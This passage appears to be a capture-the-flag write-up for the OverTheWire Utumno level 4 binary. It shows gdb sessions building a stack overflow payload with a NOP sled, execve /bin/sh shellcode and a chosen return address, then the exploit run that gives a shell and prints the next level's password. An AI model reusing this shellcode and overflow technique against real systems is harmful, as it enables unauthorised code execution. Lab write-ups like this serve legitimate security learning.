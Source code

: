 Now, we load a shellcode and find a proper return address on the NOP Sled:

```nasm
(gdb) run 65536 $(python -c "print '\x90' * 65265 + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'BBBB' + '\x90' * 246")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno4 65536 $(python -c "print '\x90' * 65265 + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'BBBB' + '\x90' * 246")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/300x $esp-300
0xfffed564:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed574:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed584:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed594:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5b4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5c4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5d4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5e4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed5f4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed604:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed614:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed624:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed634:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed644:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed654:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed664:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed674:	0x31909090	0xb0e1f7c9	0x2f68510b	0x6868732f
0xfffed684:	0x6e69622f	0x80cde389	0x42424242	0x90909090
0xfffed694:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed6a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed6b4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed6c4:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffed6d4:	0x90909090	0x90909090	0x90909090	0x90909090
```

Here I used `0xfffed660`. I also added some NOP **after** the shellcode as I had some issue running the shellcode.

```nasm
utumno4@utumno:/utumno$ ./utumno4 65536 $(python -c "print '\x90' * 65257 + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 8 * '\x90' + '\x60\xd6\xfe\xff' + 'C' * 246")
$ whoami
utumno5
$ cat /etc/utumno_pass/utumno5
woucaejiek
```

Easy !
